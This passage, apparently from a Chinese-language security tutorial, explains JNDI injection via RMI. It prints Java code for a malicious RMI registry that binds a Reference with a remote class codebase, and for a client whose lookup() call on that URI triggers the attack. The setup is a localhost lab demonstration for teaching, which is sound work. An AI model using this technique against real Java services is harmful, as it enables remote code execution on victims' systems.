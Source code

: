 在上面的`InitialContext.lookup(uri)`的这里，如果说URI可控，那么客户端就可能会被攻击。具体的原因下面再去做分析。JNDI可以使用RMI、LDAP来访问目标服务。在实际运用中也会使用到JNDI注入配合RMI等方式实现攻击。

### <a class="reference-link" name="JNDI%E6%B3%A8%E5%85%A5+RMI%E5%AE%9E%E7%8E%B0%E6%94%BB%E5%87%BB"></a>JNDI注入+RMI实现攻击

下面还是来看几段代码，来做一个分析具体的攻击流程。

#### <a class="reference-link" name="RMIServer%E4%BB%A3%E7%A0%81%EF%BC%9A"></a>RMIServer代码：

```
package com.rmi.jndi;


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server `{`
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException `{`
        String url = "http://127.0.0.1:8080/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    `}`
`}`
```

#### <a class="reference-link" name="RMIClient%E4%BB%A3%E7%A0%81%EF%BC%9A"></a>RMIClient代码：

```
package com.rmi.jndi;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client `{`
    public static void main(String[] args) throws NamingException `{`
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    `}`
`}`
```

